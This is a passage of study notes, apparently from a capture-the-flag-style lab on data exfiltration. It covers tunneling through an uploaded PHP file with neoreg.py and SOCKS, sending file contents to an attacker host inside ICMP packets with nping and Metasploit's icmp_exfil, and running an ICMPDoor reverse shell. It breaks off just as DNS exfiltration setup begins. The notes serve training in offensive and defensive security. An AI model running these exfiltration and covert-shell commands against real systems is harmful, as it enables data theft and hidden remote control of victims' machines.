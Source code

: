 `python3 neoreg.py -k thm -u http://10.10.220.229/uploader/files/tunnel.php` - Connect to the client and provide a key to decrypt the tunneling client, with the URL to the file we uploaded.

`curl --socks5 127.0.0.1:1080 http://<internal server's ip address>:80` - Use the tunnel to connect to the wanted server.

## Exfiltration Using ICMP

##### ICMP Data Section

ICMP includes data section that is a copy of other information, like the IPv4 header, it can also be empty or filled with random data which is the case with the `ping` command.

![[38e7df5e059ece4c2567bd7f77421b22.png]]

In Linux OS we can use the `-p` argument with the `ping` command to specify 16 bytes of data in hex.

`echo "<data>" | xxd -p` - Convert the data you want to exfiltrate to hex.

##### ICMP Data Exfiltration

The Metasploit framework will use the same technique by capturing incoming ICMP packets and waiting for a Beginning of File (BOF) trigger value, once received it writes to the disk until it gets End of File (EOF) trigger values.

![[b45715c44b5998fa9bf6a989b1e0d8d6.png]]

`use auxiliary/server/icmp_exfil` - A module to capture and listen for ICMP traffic.
`set BPF_FILTER icmp and not src <ip address>` - Capture only ICMP packets, ignoring the ones that come from the attacking machine.

`sudo nping --icmp -c 1 <attacker ip> --data-string "BOFfile.txt"` - Use nping to send BOF from the target machine, BOFfile is the default waiting value in Metasploit.
`sudo nping --icmp -c 1 <attacker ip> --data-string "<data>"` - Start sending the data you want, you can repeat this step.
`sudo nping --icmp -c 1 <attacker ip> --data-string "EOF"` - Send EOF.

##### ICMP C2 Communication

ICMPDoor is an open source reverse shell, an attacker sends a command that needs to be executed on the victim machine, once executed the victim sends the output with the ICMP packet in the data section.

`sudo icmpdoor -i <interface> -d <Server's side ip>` - Execute this from the victim machine.
`sudo icmp-cnc -i <interface> -d <destenation ip address>` - Establish a communication channel from the attacker machine.

You now should be able to run commands.

## DNS Configurations

For DNS exfiltration you need to control a domain name and set up DNS records.

We need to configure name server as the following:
